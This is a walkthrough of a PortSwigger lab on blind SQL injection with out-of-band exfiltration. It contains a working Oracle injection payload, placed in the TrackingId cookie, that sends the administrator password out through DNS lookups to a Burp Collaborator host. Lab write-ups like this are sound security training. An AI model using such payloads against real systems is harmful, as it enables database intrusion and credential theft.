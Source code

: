 # Write-up: Blind SQL injection with out-of-band data exfiltration
Lab-Link: <https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration>
Difficulty: PRACTITIONER  
 

## Lab description

![alt text](<img/1.png>)

## Steps

### Enumeration

Using burpsuite and capturing a request, in Cookie header, we see that it contains a `TrackingId` parameter, which is vulnerable to blind sql injection according to problem statement.

### Exploitation

Using the SQL Injection Cheat Sheet of PortSwigger at (CheatSheet)[https://portswigger.net/web-security/sql-injection/cheat-sheet]

Found payload for DNS lookup with data exfiltration for Oracle

`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual `

So, after using `UNION` and `--` for commenting the further SQL query we can exploit this vulnerability.

Final payload will look like this in burpsuite Cookie header
`TrackingId=OgbDvdrDm4ufNSiP'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+where+username%3d'administrator')||'5hny3qr7fyzt5rxuvumn57lokfq5eu.oastify.com">+%25remote%3b]>'),'/l')+FROM+dual--;`

I used Burpsuite Collaborator to receive the DNS lookup requests by going to Burp -> Burp Collaborator Client -> Copy to Clipbaord. And then inserted the collaborator URL in the payload and received the results.

Since, we will only be getting a single word string, we can exfiltrate the password of `administrator` using this simple SQL query
`SELECT password FROM users WHERE username='administrator'`

After completing my payload I used `URL encode key-characters` option of burpsuite to quickly encode by payload. So this gave the below results.

![alt text](img/2.png)

Hence, the lab is sovled.

![alt text](img/3.png)